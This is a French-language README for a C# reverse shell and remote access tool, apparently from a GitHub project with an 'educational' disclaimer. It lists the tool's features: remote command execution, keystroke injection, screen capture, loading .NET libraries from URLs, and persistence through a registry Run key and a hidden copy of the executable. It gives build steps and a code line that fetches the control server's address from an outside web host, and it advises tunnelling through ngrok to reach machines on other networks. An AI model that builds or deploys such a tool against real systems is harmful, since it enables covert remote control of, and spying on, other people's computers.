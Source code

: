 # README.MD
### Description du projet

Ce projet est une démonstration d'une reverse shell écrite en C#. Il s'agit d'un outil puissant pour la gestion à distance des systèmes, utilisé à des fins éducatives et de recherche.

#### Points clés du code

1. Connexion réseau : Le code utilise la classe TcpClient pour établir une connexion réseau avec un serveur distant. L'adresse IP et le port du serveur sont récupérés à partir d'un serveur web distant.

2. Cryptographie : Pour assurer la sécurité des communications, le code utilise l'algorithme de hachage SHA256 et un chiffrement XOR ainsi que le chiffrement RSA Pour un chiffrement simple de bout en bout. Les clés sont régénérées à chaque itération pour augmenter la sécurité.

3. Gestion des commandes : Le code est capable de lire les commandes à partir du flux de sortie standard d'un processus et de les envoyer au serveur. Il peut également lire les commandes du serveur et les exécuter sur la machine locale.

4. Fonctionnalités supplémentaires : Le code comprend des fonctionnalités supplémentaires telles que l'envoi de frappes de clavier, l'affichage de boite de messages, l'exécution de commandes de manière asynchrone, la capture d'écran à distance et le chargement de librarie .NET à partir d'URL.

5. Persistante : Le code tente de rendre la reverse shell persistante en ajoutant une entrée au registre Windows pour exécuter le programme au démarrage de la session de l'utilisateur. Il copie également le fichier exécutable dans un répertoire caché.


#### Utilisation
Pour télécharger .Net 7.0 en version portable, voir ici : https://dotnet.microsoft.com/en-us/download/dotnet/thank-you/sdk-7.0.306-windows-x64-binaries

lien directe : https://download.visualstudio.microsoft.com/download/pr/3c443568-43b0-40b1-bb5c-3a6d8cd31876/e7d6c5b176b1c985a5f972dbf2c721b3/dotnet-sdk-7.0.306-win-x64.zip

##### compiler le client : 
Pour commencer, changer l'url à ligne 158 de client\Program.cs
```
string ip_port = new WebClient().DownloadString("https://outofhere.example.repl.co/");  // replace by YOUR WebServer url
```
ensuite compilez le client avec dotnet.exe
```
dotnet.exe publish client.csproj
```
Le binaire en un seul fichier se trouve a l'emplacement suivant : 
```
client\bin\Debug\net7.0-windows\win-x64\publish
```
Puis publier le serveur : 
```
dotnet.exe publish server.csproj
```
Le binaire en un seul fichier se trouve a l'emplacement suivant : 
```
server\bin\Debug\net7.0-windows\win-x64\publish
```
Pour se connecter au serveur depuis un autre reseau que le client, je vous conseille d'utiliser le service de tunneling ngrok et d'ajouter l'addresse IP et le port sur un serveur web avec un domaine fixe (par exemple sur un repl HTML, CSS, JS sur https://replit.com)
// L'addresse IP et le port doivent êtres séparré par deux points uniquement
ex : 
```
1.2.3.4:8080
```
### Démonstration

#### Pour information, les vidéos ont été enregistrées sur la même machine avec la protection en temps réel activée [sans envoyer d'échantillons], mais c'est bien CLIENT.EXE qui effectue les actions.

##### - Reverse Shell Si vous ne le voyez pas : https://github.com/Olivier-true/revserse-shell/blob/main/reverse_shell.gif?raw=true
<img src="https://github.com/Olivier-true/revserse-shell/blob/main/reverse_shell.gif?raw=true">

##### MessageBox et SendKeys
Si vous ne le voyez pas : https://raw.githubusercontent.com/Olivier-true/revserse-shell/main/send_keys_and_msgb.gif
<img src="https://raw.githubusercontent.com/Olivier-true/revserse-shell/main/send_keys_and_msgb.gif">
Exemple de commande msgb>/Votre Message SKS>/Vos Clés

##### remote-desktop
#### voir dans le repositry : remote-desktop.gif
Pour démarrer le bureau à distance, exécutez server-remote-video.exe dans remote-video\server-remote-video\server\bin\Debug et exécutez la commande sur server.exe : remote-desktop>/:8081
<img src="https://github.com/Olivier-true/revserse-shell/blob/main/remote-desktop.gif?raw=true">

#### Avertissement

Ce projet est publié à des fins éducatives et de recherche. L'auteur n'est pas responsable de toute utilisation abusive de cet outil.
